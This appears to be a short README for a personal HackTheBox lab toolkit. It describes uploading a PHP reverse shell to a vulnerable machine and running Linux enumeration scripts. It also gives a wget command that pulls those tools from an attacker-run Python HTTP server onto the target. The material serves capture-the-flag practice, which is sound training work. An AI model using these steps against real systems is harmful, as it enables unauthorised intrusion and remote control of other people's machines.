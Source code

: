 # Hackthebox tools
<p><b>shell.php</b> : Use for reverse shell when uploaded to vuln machine</p>
<p><b>les.sh and LinEnum.sh</b> : Use for detect vuln in Linux machine</p>

###<p>How to upload files to vuln linux machine</p>
<p>In your machine type : python -m SimpleHTTPServer</p>
<p>In vuln machine type : wget (your ip address):8000/(file to upload)</p>
<p>Example : wget 10.10.14.62:8000/les.sh</p>
